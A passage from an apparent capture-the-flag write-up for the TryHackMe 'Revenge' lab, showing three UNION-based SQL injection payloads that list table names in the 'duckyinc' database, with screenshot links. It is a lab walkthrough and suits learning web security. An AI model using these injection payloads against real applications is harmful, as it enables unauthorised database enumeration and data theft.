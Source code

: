**Hmm... Only 1 result. Let's use the `LIMIT` clause. Also, we're only interested in database `duckyinc`, so let's use the `WHERE` clause:**
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,table_name FROM information_schema.tables WHERE table_schema='duckyinc' LIMIT 1 OFFSET 0-- -
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,table_name FROM information_schema.tables WHERE table_schema='duckyinc' LIMIT 1 OFFSET 1-- -
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,table_name FROM information_schema.tables WHERE table_schema='duckyinc' LIMIT 1 OFFSET 2-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Revenge/images/Pasted%20image%2020221227022053.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Revenge/images/Pasted%20image%2020221227022123.png)

